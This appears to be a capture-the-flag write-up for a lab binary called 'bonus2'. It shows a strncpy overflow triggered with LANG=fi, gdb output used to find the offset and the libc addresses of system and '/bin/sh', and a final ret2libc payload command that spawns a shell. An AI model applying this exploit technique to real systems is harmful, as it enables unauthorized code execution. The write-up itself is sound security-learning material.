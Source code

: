 We start by opening the file in [dogbolt](https://dogbolt.org/).
Here we see that we will use the fact `strncpy` don't put `\0` in some case.

Here we will overflow using the same method as in the bonus0.
We see that 40 char form `argv[1]` is copied by a `strncpy`
And 32 char is copied from `argv[2]`

So we will try to make the program copy `argv[1]` and `argv[2]` in the first `strncpy`:
[ARGV 1][ARGV 2][ARGV2]

We find the offset to overflow :

```
(gdb) set env LANG=fi
(gdb) r 12345678901234567890123456789012345678gtg90 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/bonus2/bonus2 12345678901234567890123456789012345678gtg90 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Hyvää päivää 12345678901234567890123456789012345678gtAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Program received signal SIGSEGV, Segmentation fault.
0x41366141 in ?? ()
```

This give us the offset : 18

Since we have more than 12 bytes we can try to use a Ret 2 libc.
A Ret 2 libc is compose of :
[Address of system][return address of system][command to execute]

address of system:

```
(gdb) start
Temporary breakpoint 1 at 0x804852f
Starting program: /home/user/bonus2/bonus2

Temporary breakpoint 1, 0x0804852f in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
```

address : `0xb7e6b060`
in little endian : `\x60\xb0\xe6\xb7`

Now we search the address of `"/bin/sh"` in the libc:

```
(gdb) i proc map
process 2785
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/user/bonus2/bonus2
         0x8049000  0x804a000     0x1000        0x0 /home/user/bonus2/bonus2
        0xb7e2b000 0xb7e2c000     0x1000        0x0
        0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fd2000 0xb7fd5000     0x3000        0x0
        0xb7fdb000 0xb7fdd000     0x2000        0x0
        0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
        0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
        0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
        0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
        0xbffdf000 0xc0000000    0x21000        0x0 [stack]
(gdb) find 0xb7e2c000, 0xb7fcefff, "/bin/sh"
0xb7f8cc58
```

address : `0xb7f8cc58`
in little endian : `\x58\xcc\xf8\xb7`

First arg: Second arg :
[Fill the first ARG]|[Offset to overflow][Ret 2 libc]

```Shell
export LANG=fi
./bonus2 $(python -c 'print "A"* 40') $(python -c 'print "\x90" * 18 + "\x60\xb0\xe6\xb7" + "ABCD" + "\x58\xcc\xf8\xb7"')
```
